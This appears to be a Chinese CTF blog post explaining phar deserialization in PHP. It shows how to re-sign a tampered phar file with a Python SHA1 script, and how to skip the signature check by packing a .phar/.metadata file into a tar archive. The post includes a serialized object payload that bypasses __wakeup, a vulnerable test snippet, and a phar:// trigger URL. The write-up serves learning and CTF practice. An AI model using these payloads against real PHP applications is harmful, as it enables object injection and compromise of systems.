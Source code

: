 ```yaml
---
title: "Phar 签名的修复与绕过"
date: 2022-08-20T20:31:36+08:00
lastmod: 2022-08-20T20:31:36+08:00
draft: false
author: "X1r0z"

tags: ['php', 'ctf']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


phar 反序列化有时候会和 `__wakeup` 的绕过 (CVE-2016-7124) 结合在一起, 直接修改 phar 原始文件的话会报错

原因是 phar 文件包含签名, 解析时会检测文件是否被篡改

做题碰到很多次了, 在这里记录一下

<!--more-->

## 修复签名

phar 签名的相关信息

[https://www.php.net/manual/zh/phar.fileformat.signature.php](https://www.php.net/manual/zh/phar.fileformat.signature.php)

![20220820200827](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220820200827.png)

签名支持 MD5, SHA1, SHA256, SHA512, OpenSSL 算法, 默认是 SHA1

其中末尾的4个字节是固定的, 表示该文件存在签名

倒数第8~4个字节表示文件使用的签名算法

倒数8个字节往前就是签名的二进制值, 对文件开头到声明签名部分以前的内容进行计算, 长度视算法类型而定

以 SHA1 为例

在修改了 phar 数据后, 我们需要更改的就是这部分 (20字节长度) 的内容

![20220820201619](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220820201619.png)

Python 脚本

```python
import hashlib

with open('phar.phar', 'rb') as f:
    content = f.read()

text = content[:-28]
end = content[-8:]
sig = hashlib.sha1(text).digest()

with open('phar_new.phar', 'wb+') as f:
    f.write(text + sig + end)

```

注意计算 SHA1 的时候要使用 `.digest()` 而不是 `.hexdigest()`, 因为文件本身保存的签名是二进制格式的

其它签名算法同理, 就是切片的长度不一样 (不过一般也不怎么用到)

## 使用 tar 绕过签名

[https://www.anquanke.com/post/id/240007](https://www.anquanke.com/post/id/240007)

在看这篇文章的时候发现 phar 协议对 tar 的处理跟 gzip bzip2 这些不太一样

对 gzip bzip2 处理时, PHP 会将其解压缩, 然后解析里面的 phar 文件

而对 tar 处理时, PHP 会检测压缩包中是否存在 `.phar/.metadata`, 存在的话就会将 .metadata 里的内容**直接进行反序列化**

测试代码

```php
<?php

class A{
    public $text = 'test';
    function __destruct(){
        echo $this->text;
    }

    function __wakeup(){
        $this->text = 'fail';
    }
}

file_get_contents($_GET['a']);

?>
```

本地创建 .phar 文件夹和 .metadata 文件

```bash
exp10it@LAPTOP-TBAF1QQG:~/WWW/.phar$ ls -a
.metadata
exp10it@LAPTOP-TBAF1QQG:~/WWW/.phar$ cat .metadata
O:1:"A":2:{s:4:"text";s:7:"success";}
```

tar 压缩, **必须是 Linux 环境**

```bash
tar -cf phar.tar .phar/
```

访问 `index.php?a=phar://phar.tar`

![20220820204322](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220820204322.png)

这种方法直接扔掉了 phar 的签名, 修改数据时根本不用担心签名的问题, 也就不存在 "修复签名" 的说法